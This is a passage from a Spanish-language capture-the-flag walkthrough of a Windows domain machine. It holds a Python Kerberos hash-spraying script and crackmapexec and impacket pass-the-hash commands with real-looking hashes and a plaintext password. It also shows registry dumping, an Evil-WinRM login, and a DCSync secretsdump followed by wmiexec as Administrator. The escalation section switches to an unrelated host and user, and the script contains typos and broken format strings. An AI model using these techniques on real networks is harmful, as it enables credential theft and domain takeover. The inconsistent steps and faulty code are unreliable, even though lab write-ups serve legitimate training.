    \CommentTok{# (Forwardable, Proxiable, Renewable, Canonicalize)}
\CommentTok{#   req_body['kdc-options'] = "'01010000100000000000000000000000'B"}
\NormalTok{    req_body[}\StringTok{'kdc-options'}\NormalTok{] }\OperatorTok{=} \StringTok{"'00000000000000000000000000010000'B"}
    \ControlFlowTok{if}\NormalTok{ cname }\KeywordTok{is} \KeywordTok{not} \VariableTok{None}\NormalTok{:}
\NormalTok{        req_body[}\StringTok{'cname'}\NormalTok{] }\OperatorTok{=} \VariableTok{None}
\NormalTok{        req_body[}\StringTok{'cname'}\NormalTok{]}
\NormalTok{        req_body[}\StringTok{'cname'}\NormalTok{][}\StringTok{'name-type'}\NormalTok{] }\OperatorTok{=}\NormalTok{ NT_PRINCIPAL}
\NormalTok{        req_body[}\StringTok{'cname'}\NormalTok{][}\StringTok{'name-string'}\NormalTok{] }\OperatorTok{=} \VariableTok{None}
\NormalTok{        req_body[}\StringTok{'cname'}\NormalTok{][}\StringTok{'name-string'}\NormalTok{][}\DecValTok{0}\NormalTok{] }\OperatorTok{=}\NormalTok{ cname}

\NormalTok{    req_body[}\StringTok{'realm'}\NormalTok{] }\OperatorTok{=}\NormalTok{ realm}

\NormalTok{    req_body[}\StringTok{'sname'}\NormalTok{] }\OperatorTok{=} \VariableTok{None}
\NormalTok{    req_body[}\StringTok{'sname'}\NormalTok{][}\StringTok{'name-type'}\NormalTok{] }\OperatorTok{=}\NormalTok{ NT_SRV_INST}
\NormalTok{    req_body[}\StringTok{'sname'}\NormalTok{][}\StringTok{'name-string'}\NormalTok{] }\OperatorTok{=} \VariableTok{None}
\NormalTok{    req_body[}\StringTok{'sname'}\NormalTok{][}\StringTok{'name-string'}\NormalTok{][}\DecValTok{0}\NormalTok{] }\OperatorTok{=}\NormalTok{ service}
\NormalTok{    req_body[}\StringTok{'sname'}\NormalTok{][}\StringTok{'name-string'}\NormalTok{][}\DecValTok{1}\NormalTok{] }\OperatorTok{=}\NormalTok{ host}

\NormalTok{    req_body[}\StringTok{'till'}\NormalTok{] }\OperatorTok{=} \StringTok{'19700101000000Z'}
    
\NormalTok{    req_body[}\StringTok{'nonce'}\NormalTok{] }\OperatorTok{=}\NormalTok{ nonce}

\NormalTok{    req_body[}\StringTok{'etype'}\NormalTok{] }\OperatorTok{=} \VariableTok{None}
\NormalTok{    req_body[}\StringTok{'etype'}\NormalTok{][}\DecValTok{0}\NormalTok{] }\OperatorTok{=}\NormalTok{ RC4_HMAC}
    
    \ControlFlowTok{return}\NormalTok{ req_body}

\KeywordTok{def}\NormalTok{ build_pa_enc_timestamp(current_time, key):}
\NormalTok{    gt, ms }\OperatorTok{=}\NormalTok{ epoch2gt(current_time, microseconds}\OperatorTok{=}\VariableTok{True}\NormalTok{)}
\NormalTok{    pa_ts_enc }\OperatorTok{=}\NormalTok{ PaEncTsEnc()}
\NormalTok{    pa_ts_enc[}\StringTok{'patimestamp'}\NormalTok{] }\OperatorTok{=}\NormalTok{ gt}
\NormalTok{    pa_ts_enc[}\StringTok{'pausec'}\NormalTok{] }\OperatorTok{=}\NormalTok{ ms}

\NormalTok{    pa_ts }\OperatorTok{=}\NormalTok{ PaEncTimestamp()}
\NormalTok{    pa_ts[}\StringTok{'etype'}\NormalTok{] }\OperatorTok{=}\NormalTok{ key[}\DecValTok{0}\NormalTok{]}
\NormalTok{    pa_ts[}\StringTok{'cipher'}\NormalTok{] }\OperatorTok{=}\NormalTok{ encrypt(key[}\DecValTok{0}\NormalTok{], key[}\DecValTok{1}\NormalTok{], }\DecValTok{1}\NormalTok{, encode(pa_ts_enc))}

    \ControlFlowTok{return}\NormalTok{ pa_ts}


\KeywordTok{def}\NormalTok{ build_as_req(target_realm, user_name, key, current_time, nonce):}

\NormalTok{    req_body }\OperatorTok{=}\NormalTok{ build_req_body(target_realm, }\StringTok{'krbtgt'}\NormalTok{, target_realm, nonce, cname}\OperatorTok{=}\NormalTok{user_name)}
\NormalTok{    pa_ts }\OperatorTok{=}\NormalTok{ build_pa_enc_timestamp(current_time, key)}
    
\NormalTok{    as_req }\OperatorTok{=}\NormalTok{ AsReq()}

\NormalTok{    as_req[}\StringTok{'pvno'}\NormalTok{] }\OperatorTok{=} \DecValTok{5}
\NormalTok{    as_req[}\StringTok{'msg-type'}\NormalTok{] }\OperatorTok{=} \DecValTok{10}

\NormalTok{    as_req[}\StringTok{'padata'}\NormalTok{] }\OperatorTok{=} \VariableTok{None}
\NormalTok{    as_req[}\StringTok{'padata'}\NormalTok{][}\DecValTok{0}\NormalTok{] }\OperatorTok{=} \VariableTok{None}
\NormalTok{    as_req[}\StringTok{'padata'}\NormalTok{][}\DecValTok{0}\NormalTok{][}\StringTok{'padata-type'}\NormalTok{] }\OperatorTok{=} \DecValTok{2}
\NormalTok{    as_req[}\StringTok{'padata'}\NormalTok{][}\DecValTok{0}\NormalTok{][}\StringTok{'padata-value'}\NormalTok{] }\OperatorTok{=}\NormalTok{ encode(pa_ts)}


\NormalTok{    as_req[}\StringTok{'req-body'}\NormalTok{] }\OperatorTok{=}\NormalTok{ _v(}\DecValTok{4}\NormalTok{, req_body)}

    \ControlFlowTok{return}\NormalTok{ as_req}

\KeywordTok{def}\NormalTok{ send_req_tcp(req, kdc, port}\OperatorTok{=}\DecValTok{88}\NormalTok{):}
\NormalTok{    data }\OperatorTok{=}\NormalTok{ encode(req)}
\NormalTok{    data }\OperatorTok{=}\NormalTok{ pack(}\StringTok{'>I'}\NormalTok{, }\BuiltInTok{len}\NormalTok{(data)) }\OperatorTok{+}\NormalTok{ data}
\NormalTok{    sock }\OperatorTok{=}\NormalTok{ socket.socket(socket.AF_INET6, socket.SOCK_STREAM)}
\NormalTok{    sock.}\ExtensionTok{connect}\NormalTok{((kdc, port))}
\NormalTok{    sock.send(data)}
    \ControlFlowTok{return}\NormalTok{ sock}

\KeywordTok{def}\NormalTok{ send_req_udp(req, kdc, port}\OperatorTok{=}\DecValTok{88}\NormalTok{):}
\NormalTok{    data }\OperatorTok{=}\NormalTok{ encode(req)}
\NormalTok{    sock }\OperatorTok{=}\NormalTok{ socket.socket(socket.AF_INET6, socket.SOCK_DGRAM)}
\NormalTok{    sock.}\ExtensionTok{connect}\NormalTok{((kdc, port))}
\NormalTok{    sock.send(data)}
    \ControlFlowTok{return}\NormalTok{ sock}

\KeywordTok{def}\NormalTok{ recv_rep_tcp(sock):}
\NormalTok{    data }\OperatorTok{=} \StringTok{''}
\NormalTok{    datalen }\OperatorTok{=} \VariableTok{None}
    \ControlFlowTok{while} \VariableTok{True}\NormalTok{:}
\NormalTok{        rep }\OperatorTok{=}\NormalTok{ sock.recv(}\DecValTok{8192}\NormalTok{)}
        \ControlFlowTok{if} \KeywordTok{not}\NormalTok{ rep:}
\NormalTok{            sock.close()}
            \ControlFlowTok{raise} \PreprocessorTok{IOError}\NormalTok{(}\StringTok{'Connection error'}\NormalTok{)}
\NormalTok{        data }\OperatorTok{+=}\NormalTok{ rep}
        \ControlFlowTok{if} \BuiltInTok{len}\NormalTok{(rep) }\OperatorTok{>=} \DecValTok{4}\NormalTok{:}
            \ControlFlowTok{if}\NormalTok{ datalen }\KeywordTok{is} \VariableTok{None}\NormalTok{:}
\NormalTok{                datalen }\OperatorTok{=}\NormalTok{ unpack(}\StringTok{'>I'}\NormalTok{, rep[:}\DecValTok{4}\NormalTok{])[}\DecValTok{0}\NormalTok{]}
            \ControlFlowTok{if} \BuiltInTok{len}\NormalTok{(data) }\OperatorTok{>=} \DecValTok{4} \OperatorTok{+}\NormalTok{ datalen:}
\NormalTok{                sock.close()}
                \ControlFlowTok{return}\NormalTok{ data[}\DecValTok{4}\NormalTok{:}\DecValTok{4} \OperatorTok{+}\NormalTok{ datalen]}

\KeywordTok{def}\NormalTok{ recv_rep_udp(sock):}
\NormalTok{    data }\OperatorTok{=} \StringTok{''}
\NormalTok{    datalen }\OperatorTok{=} \VariableTok{None}
    \ControlFlowTok{while} \VariableTok{True}\NormalTok{:}
\NormalTok{        rep }\OperatorTok{=}\NormalTok{ sock.recv(}\DecValTok{8192}\NormalTok{)}
        \ControlFlowTok{if} \KeywordTok{not}\NormalTok{ rep:}
\NormalTok{            sock.close()}
            \ControlFlowTok{raise} \PreprocessorTok{IOError}\NormalTok{(}\StringTok{'Connection error'}\NormalTok{)}
\NormalTok{        data }\OperatorTok{+=}\NormalTok{ rep}
        \ControlFlowTok{if} \BuiltInTok{len}\NormalTok{(rep) }\OperatorTok{>=} \DecValTok{4}\NormalTok{:}
\NormalTok{            sock.close()}
            \ControlFlowTok{return}\NormalTok{ data}

\KeywordTok{def}\NormalTok{ _decrypt_rep(data, key, spec, enc_spec, msg_type):}
\NormalTok{    rep }\OperatorTok{=}\NormalTok{ decode(data, asn1Spec}\OperatorTok{=}\NormalTok{spec)[}\DecValTok{0}\NormalTok{]}
\NormalTok{    rep_enc }\OperatorTok{=} \BuiltInTok{str}\NormalTok{(rep[}\StringTok{'enc-part'}\NormalTok{][}\StringTok{'cipher'}\NormalTok{])}
\NormalTok{    rep_enc }\OperatorTok{=}\NormalTok{ decrypt(key[}\DecValTok{0}\NormalTok{], key[}\DecValTok{1}\NormalTok{], msg_type, rep_enc)}
\NormalTok{    rep_enc }\OperatorTok{=}\NormalTok{ decode(rep_enc, asn1Spec}\OperatorTok{=}\NormalTok{enc_spec)[}\DecValTok{0}\NormalTok{]}
    
    \ControlFlowTok{return}\NormalTok{ rep, rep_enc}
    

\KeywordTok{def}\NormalTok{ passwordspray_tcp(user_realm, user_name, user_key, kdc_a, orgin_key):}
\NormalTok{    nonce }\OperatorTok{=}\NormalTok{ getrandbits(}\DecValTok{31}\NormalTok{)}
\NormalTok{    current_time }\OperatorTok{=}\NormalTok{ time()}
\NormalTok{    as_req }\OperatorTok{=}\NormalTok{ build_as_req(user_realm, user_name, user_key, current_time, nonce)}
\NormalTok{    sock }\OperatorTok{=}\NormalTok{ send_req_tcp(as_req, kdc_a)}
\NormalTok{    data }\OperatorTok{=}\NormalTok{ recv_rep_tcp(sock)}
\NormalTok{    i}\OperatorTok{=}\DecValTok{0}
    \ControlFlowTok{for}\NormalTok{ c }\KeywordTok{in}\NormalTok{ data:       }
\NormalTok{        i}\OperatorTok{=}\NormalTok{i}\OperatorTok{+}\DecValTok{1}
        \ControlFlowTok{if}\NormalTok{(i}\OperatorTok{==}\DecValTok{18}\NormalTok{):}
            \ControlFlowTok{if}\NormalTok{(}\BuiltInTok{ord}\NormalTok{(c)}\OperatorTok{==}\BaseNTok{0x0b}\NormalTok{):}
                \BuiltInTok{print}\NormalTok{(}\StringTok{'[+] Valid Login: }\SpecialCharTok{%s}\StringTok{:}\SpecialCharTok\NormalTok{(user_name,orgin_key))}

\ControlFlowTok{if} \VariableTok{__name__} \OperatorTok{==} \StringTok{'__main__'}\NormalTok{:}
\NormalTok{    user_realm }\OperatorTok{=} \StringTok{'htb.local'}
\NormalTok{    username }\OperatorTok{=} \StringTok{'henry.vinson'}
\NormalTok{    kdc_a }\OperatorTok{=} \StringTok{'apt'}

\NormalTok{    f }\OperatorTok{=} \BuiltInTok{open}\NormalTok{(}\StringTok{"hash"}\NormalTok{, }\StringTok{"r"}\NormalTok{)}
\NormalTok{    p1 }\OperatorTok{=}\NormalTok{ log.progress(}\StringTok{"Fuerza bruta"}\NormalTok{)}
\NormalTok{    p1.status(}\StringTok{"Iniciando ataque de fuerza bruta"}\NormalTok{)}
\NormalTok{    number }\OperatorTok{=} \DecValTok{1}
    \ControlFlowTok{for}\NormalTok{ ntlm }\KeywordTok{in}\NormalTok{ f.readlines():}
\NormalTok{        ntlm }\OperatorTok{=}\NormalTok{ ntlm.strip(}\StringTok{'}\CharTok{\textbackslash{}n}\StringTok{'}\NormalTok{)}
\NormalTok{        p1.status(}\StringTok{"Probando con el Hash [}\SpecialCharTok{%s}\StringTok{/2000]: }\SpecialCharTok\NormalTok{ (}\BuiltInTok{str}\NormalTok{(number), ntlm)}
\NormalTok{        user_key }\OperatorTok{=}\NormalTok{ (RC4_HMAC, ntml.decode(}\StringTok{'hex'}\NormalTok{))}
\NormalTok{        passwordspray_tcp(user_realm, username, user_key, kdc_a, ntlm)}
\end{Highlighting}
\end{Shaded}

Hemos cambiado el \textbf{socket.AF\_INET} en \textbf{socket.AF\_INET6} y el main para que podamos leer el fichero de hashes.

Lanzando el script, encontramos un hash valido. Lo verificamos

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{pushd}\NormalTok{ /opt/CrackMapExec}
\ExtensionTok{poetry}\NormalTok{ run crackmapexec smb dead:beef::b885:d62a:d679:573f -u }\StringTok{'henry.vinson'}\NormalTok{ -H }\StringTok{'e53d87d42adaa3ca32bdb34a876cbffb'}
\end{Highlighting}
\end{Shaded}

\begin{quote}
{[} ! {]} NOTAS: Podriamos hacer ASProasting o Kerberoasting attack pero S4vi nos adelanta que no funcciona y que ademas es complicado con IPV6
\end{quote}

\hypertarget{dumpeo-de-registros-desde-la-maquina-local}{%
\subsection*{Dumpeo de registros desde la maquina local}\label{dumpeo-de-registros-desde-la-maquina-local}}
\addcontentsline{toc}{subsection}{Dumpeo de registros desde la maquina local}

Los registros se pueden dumpear desde la maquina local. Es interessante siempre probar esto porque se puede encontrar informaciones de esta manera.
Los registros son:

\begin{itemize}
\tightlist
\item
  HKCR
\item
  HKCU
\item
  HKLM
\item
  HKU
\item
  HKCC
\item
  HKPD
\end{itemize}

Utilizamos la heramienta \textbf{reg.py} de impacket para lograr esto.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{impacket-reg.py}\NormalTok{ -hashes :e53d87d42adaa3ca32bdb34a876cbffb htb.local/henry.vinson@apt query -keyName HKCR}
\ExtensionTok{impacket-reg.py}\NormalTok{ -hashes :e53d87d42adaa3ca32bdb34a876cbffb htb.local/henry.vinson@apt query -keyName HKCU}
\ExtensionTok{impacket-reg.py}\NormalTok{ -hashes :e53d87d42adaa3ca32bdb34a876cbffb htb.local/henry.vinson@apt query -keyName HKLM}
\ExtensionTok{impacket-reg.py}\NormalTok{ -hashes :e53d87d42adaa3ca32bdb34a876cbffb htb.local/henry.vinson@apt query -keyName HKU}
\end{Highlighting}
\end{Shaded}

Aqui vemos informaciones interesantes, y miramos por lo que nos parece interesante

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{impacket-reg.py}\NormalTok{ -hashes :e53d87d42adaa3ca32bdb34a876cbffb htb.local/henry.vinson@apt query -keyName HKU}\DataTypeTok{\textbackslash{}\textbackslash{}}\NormalTok{Software}
\ExtensionTok{impacket-reg.py}\NormalTok{ -hashes :e53d87d42adaa3ca32bdb34a876cbffb htb.local/henry.vinson@apt query -keyName HKU}\DataTypeTok{\textbackslash{}\textbackslash{}}\NormalTok{Software}\DataTypeTok{\textbackslash{}\textbackslash{}}\NormalTok{GiganticHostingManagementSystem}
\end{Highlighting}
\end{Shaded}

Aqui encontramos usuario y contraseña para henry.vinson\_adm. Verificamos las credenciales

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{pushd}\NormalTok{ /opt/CrackMapExec}
\ExtensionTok{poetry}\NormalTok{ run crackmapexec smb dead:beef::b885:d62a:d679:573f -u }\StringTok{'henry.vinson_adm'}\NormalTok{ -p }\StringTok{'G1#Ny5@2dvht'}
\end{Highlighting}
\end{Shaded}

Es valida y intentamos connectarnos con Evil-WinRM

\hypertarget{vuln-exploit-gaining-access-43}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-43}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{winrm}{%
\subsection*{WinRM}\label{winrm}}
\addcontentsline{toc}{subsection}{WinRM}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{gem}\NormalTok{ install evil-winrm}
\ExtensionTok{evil-winrm}\NormalTok{ -i apt -u }\StringTok{'henry.vinson_adm'}\NormalTok{ -p }\StringTok{'G1#Ny5@2dvht'}
\end{Highlighting}
\end{Shaded}

Nos conectamos y podemos leer la flag.

\hypertarget{privilege-escalation-38}{%
\section*{Privilege Escalation}\label{privilege-escalation-38}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{rootear-la-maquina-47}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-47}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

Como hemos echo una buena enumeracion del systema, sabemos que el usuario \textbf{MRKLY} puede hacer un ataque DCSync para recuperar los
hashes de los usuarios del systema.

Aqui la escala de privilegio es facil y se hace desde la maquina de atacante con \textbf{SecretsDump}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{impacket-secretsdump}\NormalTok{ htb.local/mrlky:Football#7@10.10.10.103}
\end{Highlighting}
\end{Shaded}

Aqui ya vemos hashes que podemos uzar para hacer \textbf{PASS THE HASH}. Copiamos el hash del usuario Administrator y lanzamos

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{impacket-wmiexec}\NormalTok{ htb.local/Administrator@10.10.10.103 -hashes :f6b7160bfc91823792e0ac3a162c9267}
\FunctionTok{whoami}
\CommentTok{#Output}
\ExtensionTok{htb}\NormalTok{\textbackslash{}administrator}
\end{Highlighting}
\end{Shaded}

Ya podemos leer el \textbf{root.txt}


% Index?

\end{document}

